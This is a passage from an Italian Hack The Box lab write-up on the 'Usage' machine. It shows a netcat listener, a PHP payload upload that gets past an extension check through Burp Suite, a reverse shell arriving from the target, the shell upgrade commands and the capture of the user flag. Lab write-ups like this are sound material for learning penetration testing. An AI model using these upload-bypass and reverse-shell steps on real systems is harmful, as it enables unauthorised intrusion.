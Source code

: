 e prepariamo nc in ascolto 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
```

Carichiamo il nostro payload nella pagina e intercettiamo la richiesta con [Burp Suite](Note/Tool/Burp%20Suite.md)
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/usage4.png)
 modifichiamo l'estensione del file aggiungendo `.php`

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/usage5.png)
procediamo con il validare la richiesta e otteniamo la nostra shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.18] 49160
/bin/sh: 0: can't access tty; job control turned off
$ whoami
dash
$
```

facciamo upgrade della shell

```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
zsh: suspended  nc -lnvp 443

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 443

<ject_admin/public/uploads/images$ export SHELL=bash
<n/public/uploads/images$ export TERM=xterm-256color
dash@usage:/var/www/html/project_admin/public/uploads/images$
```

e ci prendiamo la nostra user flag

```bash
dash@usage:/var/www/html/project_admin/public/uploads/images$ cat /home/dash/user.txt
092f18e4a17e0db57b278daf1591c13a
```

# LATERAL MOVIMENT
